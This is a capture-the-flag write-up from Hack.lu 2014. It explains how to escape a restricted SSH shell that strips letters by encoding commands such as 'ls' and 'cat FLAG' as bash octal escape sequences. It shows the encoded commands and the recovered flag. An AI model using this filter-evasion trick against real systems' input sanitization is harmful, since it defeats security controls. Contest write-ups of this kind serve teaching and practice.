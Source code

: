 ```yaml
---
layout: post
title: "Gunslinger Joe's private Terminal"
date: 2014-10-24
ctf: Hack.lu 2014
author: xorpse
---
```

## Description

Author: cutz

Category: Misc

Gunslinger Joe has a pretty bad memory and always forgets the password for
his private terminals! That's why he always uses his username as password but
also makes sure that absolutely no one else who knows his name can interact
with his secure terminal. Wouldn't it be super embarrassing for him to prove
him wrong?

SSH: gunslinger_joe@wildwildweb.fluxfingers.net

PORT: 1403

## Solution

Author: Sam Thomas / xorpse

After logging in and attempting to enter a few commands into the shell, we see
that characters in `[A-Za-z]` are being stripped from the input before being
interpreted:

	$ ls
	$ echo "hello"
	: : command not found
	$ echo "12345"
	: 12345: command not found
	$ $?
	: 0: command not found

Since digits (`[0-9]`) are not being stripped, we could try to encode the command
using escape sequences -- it turns out octal as a number system is perfectly suited
for this. The command `ls` can be encoded as: `$'\154'$'\163'` and gives:

	$ $'\154'$'\163'
	FLAG  terminal

Now, it's simply a matter of performing `cat FLAG`; which can be encoded as:
`$'\143'$'\141'$'\164'  $'\106'$'\114'$'\101'$'\107'`

...and gives us:

	$ $'\143'$'\141'$'\164'  $'\106'$'\114'$'\101'$'\107'
	flag{joe_thought_youd_suck_at_bash}